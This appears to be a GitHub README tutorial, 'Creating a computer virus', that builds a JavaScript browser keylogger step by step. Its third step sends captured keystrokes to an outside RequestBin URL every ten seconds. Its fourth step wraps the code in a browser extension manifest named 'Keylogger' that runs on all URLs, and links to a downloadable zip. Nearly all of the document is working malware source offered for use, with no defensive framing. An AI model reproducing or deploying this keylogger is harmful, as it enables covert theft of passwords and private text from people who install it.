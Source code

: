 # Creating a computer virus 

Welcome to creating a simple virus 

## Step 1

Lets print


```
var keys = '';
document.onkeypress = function (e) {
    get = window.event ? event : e;
    key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
window.setInterval(function () {
    if (keys.length > 0){
        console.log(keys);
    }
    keys = '';
}, 10000);
```

## Step 2

Lets do something fun

```
var keys = '';
document.onkeypress = function (e) {
    get = window.event ? event : e;
    key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
window.setInterval(function () {
    if (keys.length > 0){
        alert(keys);
    }
    keys = '';
}, 10000);
```


## Step 3

Lets take things to the next level

- Open [Request bin](https://requestbin.net/)

- Click **Create a RequestBin** 


```
var keys = '';
document.onkeypress = function (e) {
    get = window.event ? event : e;
    key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
window.setInterval(function () {
    if (keys.length > 0){
        new Image().src = 'https://{request bin url}?keys=' + keys;
    }
    keys = '';
}, 10000);
```


## Step 4

Lets make it even more cooler

/content.js 
```
{
  "manifest_version": 2,
  "name": "Keylogger",
  "version": "0.1",

  "content_scripts": [
    {
      "matches": [
        "<all_urls>"
      ],
      "js": ["content.js"]
    }
  ]
}
```
### Click [here](https://github.com/EXTREMOPHILARUM/virus/releases/download/0.1/extension.zip) to download zip.
